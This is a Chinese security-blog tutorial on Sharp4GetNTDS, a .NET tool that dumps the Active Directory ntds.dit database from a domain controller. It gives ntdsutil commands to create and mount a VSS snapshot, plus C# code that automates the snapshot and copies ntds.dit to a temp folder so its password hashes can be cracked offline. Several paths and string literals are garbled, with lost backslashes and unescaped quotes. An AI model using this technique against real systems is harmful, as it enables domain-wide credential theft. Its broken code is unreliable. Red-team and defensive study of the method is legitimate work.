


# Sharp4GetNTDS：提取 NTDS 文件获取 Windows 域环境资产信息-先知社区

> **来源**: https://xz.aliyun.com/news/17699  
> **文章ID**: 17699

---

在当今的企业网络安全体系中，Active Directory（AD）扮演着至关重要的角色。它不仅是用户身份认证与权限控制的中枢神经，更是整个内网架构运作的基础。而其中最核心的组件——ntds.dit 数据库文件，则记录着整个域环境中的账号、组关系、密码哈希等关键数据。正因为如此，ntds.dit 成为了红队攻击者梦寐以求的目标，也是蓝队防守者重点保护的核心资产。本文将围绕 ntds.dit 展开，深入剖析其作用、获取方式与攻防博弈背后的技术细节。

## 0x01 什么是NTDS.dit

ntds.dit 是 Active Directory 数据库文件，全称为 NT Directory Services – Directory Information Tree ， 是一个基于 Extensible Storage Engine 的数据库文件，保存着 Active Directory 中的全部信息，信息包括但不限于：

* 所有域用户与计算机账户
* 密码哈希（NTLM、Kerberos keys）
* 组织单位（OU）
* 群组关系
* 域控策略、信任关系等

差不多掌握了 ntds.dit 就等于掌握了整个域的核心资产。通常，ntds.dit 文件在域控主机上的路径如下：

```
C:\Windows\NTDS
tds.dit
```

该目录下同时还有几个相关的文件，比如 edb.log、edb.chk，表示日志文件和检查文件，用于崩溃恢复。注意：这些文件通常被系统锁定，无法在系统运行时直接复制，如下图所示。

​


## 0x02 提取NTDS.dit

ntdsutil.exe 是一个功能强大且常被忽视的内置命令行工具，主要用于 Active Directory 目录服务的管理、维护、备份与修复，文件路径如下所示。

​

```
C:\Windows\System32
tdsutil.exe
```

虽然 ntdsutil.exe 是管理员工具，但也被红队/攻击者用于导出 Active Directory 数据，尤其是在获得域控权限后，配合提权操作可直接导出 ntds.dit。比如，使用 ntdsutil.exe 工具对 Active Directory 数据库创建 VSS 快照，具体命令如下所示。

```
ntdsutil.exe snapshot "activate instance ntds" create q q
```

​

命令执行成功后，系统会通过 VSS 服务创建一个 ntds.dit 的文件快照副本， 这个快照可以稍后使用 mount 命令进行挂载，从而访问其中的 AD 数据内容，如下图所示。

​


创建完 NTDS 快照后，数据仍以 VSS（Volume Shadow Copy）形式保存在系统中，无法直接访问。此时，需要执行 挂载（mount）命令，将该快照映射到一个系统目录，才能访问其中的 ntds.dit，具体命令如下所示。

​

```
ntdsutil.exe snapshot "mount {d374175c-a71a-4b0a-9d9f-80c0a984dff2}" q q
```

成功挂载后，系统会返回 C:\$SNAP\_202503281528\_VOLUMEC$ 这样类似的路径，如下图所示。

​



打开路径后会看到快照内容，如下图所示。

​


## 0x03 编码实现

下面这段 .NET 代码是一个用于自动化创建并挂载 Active Directory 快照的程序。模拟了使用 ntdsutil.exe 工具的操作流程，并尝试提取其中的 ntds.dit 文件以用于进一步处理。

​

首先，调用 ntdsutil.exe 并传入创建快照的参数，"activate instance ntds" 是激活 AD 实例，create 表示创建快照，q q 为退出命令。

​

```
string command = "ntdsutil.exe";
string arguments = " snapshot "activate instance ntds" create q q";
```

设置进程启动信息，屏蔽窗口输出，并启用标准输出和错误流的重定向，方便后续捕获输出结果。接着，启动 ntdsutil.exe 并捕获输出内容，用于后续处理，代码如下所示。

​

```
ProcessStartInfo startInfo = new ProcessStartInfo

{

	FileName = command,

	Arguments = arguments,

	CreateNoWindow = true,

	UseShellExecute = false,

	RedirectStandardOutput = true,

	RedirectStandardError = true

};

Process process = Process.Start(startInfo);

string output = process.StandardOutput.ReadToEnd();

string error = process.StandardError.ReadToEnd();
```

​

随后，使用正则表达式提取快照 GUID，调用 ntdsutil snapshot mount {GUID} q q，尝试将快照挂载到系统中，具体代码如下所示。

​

```
string result = Program.ExecuteCommand("ntdsutil.exe", " snapshot "mount " + extractedGuid + " " q q ");
```

再通过copy命令将快照中的 ntds.dit 文件复制出来，保存到 C:\Windows\Temp 目录中，为后续分析做准备。

​

```
Program.ExecuteCommand3(match2.Value + "\Windows\NTDS\
tds.dit", "C:\Windows\Temp\Sharp4ntds.dit");

private static void ExecuteCommand3(string sourcePath, string destinationPath)

{

	string arguments = string.Concat(new string[]

	{

		"/c copy "",

		sourcePath,

		"" "",

		destinationPath,

		"""

	});

	ProcessStartInfo startInfo = new ProcessStartInfo

	{

		FileName = "cmd.exe",

		Arguments = arguments,

		CreateNoWindow = true,

		UseShellExecute = false,

		RedirectStandardOutput = true,

		RedirectStandardError = true

	};

	using (Process process = Process.Start(startInfo))

	{

		bool flag = process != null;

		if (flag)

		{

			string output = process.StandardOutput.ReadToEnd();

			string error = process.StandardError.ReadToEnd();

			bool flag2 = !string.IsNullOrEmpty(output);

			if (flag2)

			{

				Console.WriteLine("输出: " + output);

			}

			bool flag3 = !string.IsNullOrEmpty(error);

			if (flag3)

			{

				Console.WriteLine("错误: " + error);

			}

			process.WaitForExit();

		}

	}

}
```

打开cmd窗口，运行 Sharp4GetNTDS.exe，即可完成 ntds.dit 文件的提取，如下图所示。

​


​

最后，通过 DIT Explorer 打开文件， 该工具是用 .NET 编写的 Windows 应用程序，用于浏览 NTDS.dit 文件，如下图所示。

​



综上所述，在红队渗透测试或蓝队防御体系中，Active Directory（AD）的核心数据库文件 ntds.dit 始终是双方角力的关键所在。不仅存储了域内所有用户、计算机账户的信息，还包含了高度敏感的密码哈希与安全标识符。攻击者一旦获取该文件，即有机会离线暴力破解用户密码或重放票据横向移动。
